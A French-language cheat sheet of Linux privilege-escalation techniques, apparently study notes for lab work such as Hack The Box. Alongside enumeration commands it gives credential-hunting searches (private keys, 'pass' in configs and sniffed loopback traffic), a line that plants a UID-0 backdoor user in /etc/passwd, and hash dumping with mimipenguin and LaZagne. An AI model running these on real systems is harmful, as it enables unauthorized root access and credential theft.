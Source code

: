 # Privilèges
Tout est un fichier, même le matériel. Ils répondent donc aux permissions standards de fichiers
r -	read
w	- write
x	- execute
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-rw-r----- 1 root shadow 1751 May  2 09:31 /etc/shadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 Propriétaire: root - groupe: shadow
Premier trait est le type. Suivis de 3 groupes de 3. Propriétaire, Groupe du Propriétaire, autre

# Énumération
* Nom et groupe:  ```id```
* usagers: 	```cat /etc/passwd```
	* login_name : encrypted_password : UID : GID : comment : home folder : login_shell
	* encrypted_password x si dans /etc/shadow
	* nologin si peut pas se connecter
* nom de machine: ```hostname```
* système:
	```shell
	cat /etc/issue
	cat /etc/os-release
	uname -a
	arch
	```
* Processus:
	```shell
	ps aux
	#suivre en temps réel
	watch -n 1 "ps -aux | grep pass"
	#Très efficace si accessible
	./pspy
	```
##  Tâches
 **cron** est l'ordonanceur de tâches sous Linux
* ```ls -lah /etc/cron*```   cron.daily, cron.hourly, ...
* ```crontab -l``` 	tâches de l'utilisateur courrant (utiliser aussi avec sudo)
* ```grep "CRON" /var/log/syslog```
* ```tail -f /var/log/cron.log```

## Applications et packages
```dpkg -l```	Debian

## Fichiers en écriture
* dossiers ```find / -writable -type d 2>/dev/null | grep -v "/proc*"```
* fichiers ```find / -writable -type f 2>/dev/null | grep -v "/proc*"```
* fichiers de l'utilisateur: `-user [username]`
* fichiers de groupes: `-group [group]`

## Disques
```mount```
```cat /etc/fstab```	fichiers montés au lancement
```lsblk```	disques et partitions disponibles

## Kernel modules
```lsmod```			liste
```/sbin/modinfo [module]```	détails

## SUID et GUID
Permet d'exécuter comme propriétraire ou groupe du fichier. “s” ou “S” dans les droits
SUID ```find / -perm -u=s -type f 2>/dev/null```
GUID ```find / -perm -g=s -type f 2>/dev/null```

## Capabilities
Permet de donner certains droits pour certaines actions dangereuses au processus
```/usr/sbin/getcap -r / 2>/dev/null```
**cap_setuid+ep** est très intéressant

## SUDO
Dans /etc/sudoers
Droits de l'usager courant: ```sudo -l```

**utiliser GTFOBins pour savoir comment les abuser**

## Traces usagers
Vérifier dossiers utilisateurs
Variables d'environment: ```env```
**.bashrc** fichier de config bash
**.bash_history** pour l'historique bash

## Config de serveur web
* Regarder les fichiers de config web
* /etc/hosts

## Réseau
Adapteurs réseau:
* ```ifconfig```
* ```ip a```
routes: 
* ```route```
* ```routel```
connexions actives:
* ```netstat```
* ```ss -anp```
Autres:
```
ss -t state listening
netstat -antup
netstat -tunlp
```
tcpdump peut attraper du traffique intéressant
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
tcpdump -i lo -A | grep "pass"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## Firewall
```iptables``` (requière root)
```iptables-persistent``` package sauvegarde dans fichiers ```/etc/iptables``` par défaut
commande ```iptables-save``` sauvarge certains fichiers


https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://book.hacktricks.xyz/linux-hardening/privilege-escalation

# Automatisation
/usr/bin/unix-privesc-check
LinEnum
/usr/share/peass/linpeas/linpeas*

# Syslog
```cat /var/log/syslog | grep -i <ce que tu veux>```

# Recherche de fichiers
Nom du fichier
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#récursive sans casse
find /mnt/Finance/ -name *cred*
#simple
find *cred*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cherche dans le contenu
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
grep -rn /mnt/Finance/ -ie cred
#Limite le contenu
grep -r -E -o ".{0,10}pass.{0,10}"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Combinaisons
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#HtB cherche .conf .config  .cnf
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
#HtB Cherche user, password ou pass dans les .cnf
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
#HtB Cherche dans fichier db
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
#clef SSH (Utilise mots contenue dans une clef)
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
#mots intéressant dans les logs
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Mot de passe
Dans /etc/shadow, mais /etc/passwd prend précéence si il contient un hash.
Si on peut écrire, il est facile de créer un nouvel utilisateur ou changer un mot de passe

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#générer un hash de mot de passe avec algorithm crypt
openssl passwd w00t
#hash généré: Fdzt.eqJQ4s0g
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Utiliser mimipenguin pour extraire des hash en mémoire, doit être admin
```shell-session
sudo python3 mimipenguin.py
sudo bash mimipenguin.sh 
```
Lazagne pour extraire hash de différentes sources
```shell-session
sudo python laZagne.py all
```